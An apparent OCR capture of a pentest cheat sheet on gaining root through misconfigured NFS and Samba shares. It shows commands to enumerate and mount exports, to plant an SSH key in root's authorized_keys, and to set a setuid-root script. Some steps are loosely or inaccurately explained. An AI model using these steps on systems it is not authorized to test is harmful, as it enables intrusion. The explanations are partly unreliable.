 **NFS Shares**
```bash
showmount -e target_host   # enumerate exports
mount -t nfs target_host:/exported/path /mnt
```
If you can write to a writable NFS export that’s mounted on the server’s root (e.g., `/home`), you can place an SSH key in `/mnt/root/.ssh/authorized_keys`.
**Samba / CIFS**
```bash
mount -t cifs //server/share /mnt -o username=user,password=pass,noperm
```
If `noperm` is set or the share is writable by user, you can:
```bash
chown root:root /mnt/myscript.sh
chmod 4755 /mnt/myscript.sh
```
If a root-owned service executes `myscript.sh` from `/mnt`, you gain root.
